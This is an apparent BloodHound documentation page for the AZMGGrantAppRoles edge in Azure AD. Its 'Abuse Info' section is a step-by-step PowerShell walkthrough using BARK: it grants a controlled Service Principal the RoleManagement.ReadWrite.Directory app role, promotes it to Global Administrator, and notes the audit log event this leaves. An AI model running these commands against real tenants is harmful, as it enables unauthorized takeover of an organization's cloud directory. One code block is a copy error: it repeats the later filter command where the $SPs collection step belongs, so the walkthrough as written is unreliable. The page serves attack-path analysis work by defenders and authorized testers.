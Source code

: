 ```yaml
---
title: AZMGGrantAppRoles
description: "This edge is created during post-processing."
---
```


<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg" alt="Applies to BloodHound Enterprise and CE"/>


It is created against AzureAD tenant objects when a Service Principal has one of the following MS Graph app role assignments:

* AppRoleAssignment.ReadWrite.All
* RoleManagement.ReadWrite.Directory

## Abuse Info

With the ability to grant arbitrary app roles, you can grant the RoleManagement.ReadWrite.Directory app role to a Service Principal you already control, and then promote it or another principal to Global Administrator.

These functions require you to supply an MS Graph-scoped JWT associated with the Service Principal that has the privilege to grant app roles. There are several ways to acquire a JWT. For example, you may use BARK’s Get-MSGraphTokenWithClientCredentials to acquire an MS Graph-scoped JWT by supplying a Service Principal Client ID and secret:

```bash
$MGToken = Get-MSGraphTokenWithClientCredentials `
    -ClientID "34c7f844-b6d7-47f3-b1b8-720e0ecba49c" `
    -ClientSecret "asdf..." `
    -TenantName "contoso.onmicrosoft.com"
```
Use BARK’s Get-AllAzureADServicePrincipals to collect all Service Principal objects in the tenant:

```bash
$SPs | ?{$_.appId -Like "00000003-0000-0000-c000-000000000000"} | Select id
```
Next, find the MS Graph Service Principal’s ID. You can do this by piping $SPs to Where-Object, finding objects where the appId value matches the universal ID for the MS Graph Service Principal, which is 00000003-0000-0000-c000-000000000000:

```bash
$SPs | ?{$_.appId -Like "00000003-0000-0000-c000-000000000000"} | Select id
```

The output will be the object ID of the MS Graph Service Principal. Take that ID and use it as the “ResourceID” argument for BARK’s New-AppRoleAssignment function. The AppRoleID of ‘9e3f62cf-ca93-4989-b6ce-bf83c28f9fe8’ is the universal ID for RoleManagement.ReadWrite.Directory. The SPObjectId is the object ID of the Service Principal you want to grant this app role to:

```bash
New-AppRoleAssignment `
    -SPObjectId "6b6f9289-fe92-4930-a331-9575e0a4c1d8" `
    -AppRoleID "9e3f62cf-ca93-4989-b6ce-bf83c28f9fe8" `
    -ResourceID "9858020a-4c00-4399-9ae4-e7897a8333fa" `
    -Token $MGToken
```
If successful, the output of this command will show you the App Role assignment ID. Now that your Service Principal has the RoleManagement.ReadWrite.Directory MS Graph app role, you can promote the Service Principal to Global Administrator using BARK’s New-AzureADRoleAssignment.

```bash
New-AzureADRoleAssignment `
    -PrincipalID "6b6f9289-fe92-4930-a331-9575e0a4c1d8" `
    -RoleDefinitionId "62e90394-69f5-4237-9190-012177145e10" `
    -Token $MGToken
```
If successful, the output will include the principal ID, the role ID, and a unique ID for the role assignment.

## Opsec Considerations

When you assign an app role to a Service Principal, the Azure Audit logs will create an event called “Add app role assignment to service principal”. This event describes who made the change, what the target service principal was, and what app role assignment was granted.

## References

* [https://attack.mitre.org/techniques/T1098/](https://attack.mitre.org/techniques/T1098/)
* [https://posts.specterops.io/azure-privilege-escalation-via-service-principal-abuse-210ae2be2a5](https://posts.specterops.io/azure-privilege-escalation-via-service-principal-abuse-210ae2be2a5)
* [https://github.com/BloodHoundAD/BARK](https://github.com/BloodHoundAD/BARK)

